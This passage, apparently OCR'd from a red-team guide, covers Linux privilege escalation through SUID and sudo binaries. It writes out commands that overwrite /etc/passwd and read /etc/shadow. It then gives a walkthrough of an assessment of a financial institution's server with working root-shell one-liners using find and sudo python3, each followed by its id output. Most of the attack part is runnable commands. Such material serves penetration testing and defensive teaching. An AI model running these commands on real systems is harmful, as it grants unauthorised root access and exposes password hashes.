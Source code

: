    ```bash
   # Example: Using cp to overwrite sensitive files
   cp /tmp/malicious_passwd /etc/passwd

   # Example: Using cat to read sensitive files
   cat /etc/shadow
   ```

3. **Command Injection**:
   Look for SUID binaries that might be vulnerable to command injection:

   ```bash
   # Example: Custom binary that accepts user input
   strings /usr/local/bin/custom_binary
   # Look for system(), popen(), exec() calls in the output
   ```

### Example: Living Off the Land with GTFOBins

During a red team assessment of a financial institution's development server, we gained access as a limited user and needed to escalate privileges without introducing malicious files:

1. **Initial Enumeration**:
   ```bash
   # Created and ran the GTFOBins finder script
   bash gtfobins_finder.sh
   
   # Found several promising binaries:
   # - /usr/bin/find (SUID)
   # - /usr/bin/python3 (Sudo)
   # - /usr/bin/wget (Capabilities - cap_net_raw+ep)
   ```

2. **Exploiting SUID Find**:
   ```bash
   # Used find's SUID bit to spawn a shell with elevated privileges
   /usr/bin/find . -exec /bin/sh -p \; -quit
   
   # Confirmed elevated privileges
   id
   uid=1001(devuser) gid=1001(devuser) euid=0(root) groups=1001(devuser)
   ```

3. **Exploiting Sudo Python (Alternative Method)**:
   ```bash
   # Checking sudo permissions showed Python was available
   sudo -l
   # User devuser may run the following commands on devserver:
   #     (ALL) NOPASSWD: /usr/bin/python3
   
   # Using Python to spawn a root shell
   sudo python3 -c 'import os; os.execl("/bin/sh", "sh")'
   
   # Confirmed full root privileges
   id
   uid=0(root) gid=0(root) groups=0(root)
   ```
